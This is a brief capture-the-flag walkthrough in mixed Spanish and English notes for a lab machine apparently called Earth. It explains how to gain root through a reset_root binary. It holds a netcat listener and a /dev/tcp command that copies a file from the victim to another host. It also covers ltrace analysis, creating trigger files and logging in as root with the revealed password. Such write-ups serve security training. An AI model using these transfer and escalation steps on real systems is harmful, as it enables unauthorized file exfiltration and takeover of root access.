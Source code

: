 when you use reset_root you have a "failed" you cannot run the script with this way

abri una terminal aparte con netcat y escucha 
nc -lvnp 3333 > reset_root
, despues corre el comando desde la maquina victima

cat  usr/bin/reset_root > /dev/tcp/192.168.100.4/3333


![[casda.png]]

el archivo reset_root esta en la carpeta cds


![[qwfqw.png]]

chmod +x reset_root

and now we use 
ltrace ./reset_root

if we dont have it sudo apt install ltrace

![[fewfwe.png]]

debemos crear esos archivos que se hicieron en la maquina victima

touch dev/shm/dwef , etc ( en la carpeta que ya estabamos)

ahora podemos hacer reset_root

![[passssss.png]]

las passssss

su root ... Earth

cd /root/ ahi esta la flag de root 